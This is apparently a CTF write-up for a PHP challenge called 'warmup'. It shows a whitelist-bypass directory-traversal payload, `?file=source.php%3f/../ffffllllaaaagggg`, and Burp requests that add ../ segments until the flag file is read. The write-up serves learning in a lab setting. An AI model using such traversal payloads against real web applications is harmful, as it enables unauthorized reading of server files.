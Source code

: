 
# warmup  
  
- ![Screenshot from 2021-07-24 22-04-46](https://user-images.githubusercontent.com/87865134/126872559-500d8562-582d-44a8-b5fe-05209425fee2.png)

- Hint: in source code  
![Screenshot from 2021-07-24 22-05-44](https://user-images.githubusercontent.com/87865134/126872594-0e5b5035-a9ec-49a0-bf30-9475a3d09946.png)

- View file ***source.php***  
![Screenshot from 2021-07-24 22-07-47](https://user-images.githubusercontent.com/87865134/126872652-d614b39e-f637-40fd-83ad-3d53efbdcbb9.png)  
![Screenshot from 2021-07-24 22-08-07](https://user-images.githubusercontent.com/87865134/126872665-c914d17e-ec34-45c6-b275-46e0f23544e8.png)

- View file ***hint.php***:  
![Screenshot from 2021-07-24 22-11-29](https://user-images.githubusercontent.com/87865134/126872747-869ffda3-9c95-4134-b7eb-2c40023743ac.png)

  - > Flag in file ***ffffllllaaaagggg***
  
- **function checkFile(&$page)**: 
  -  check if file in whitelist or not
  -  $page not change after fucntion return  
    - => can bypass function by use payload: `?file=source.php%3f/../ffffllllaaaagggg` 
 
- **Use Burp to send some requests**:
  - `?file=source.php%3f/../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../../ffffllllaaaagggg` => not found
  - `?file=source.php%3f/../../../../ffffllllaaaagggg` => found
 
![Screenshot from 2021-07-24 22-24-53](https://user-images.githubusercontent.com/87865134/126873191-d4cfb6a0-52ed-4997-a90b-e59554a3aad0.png)


- **Description**: 
  - > category: directory traversal

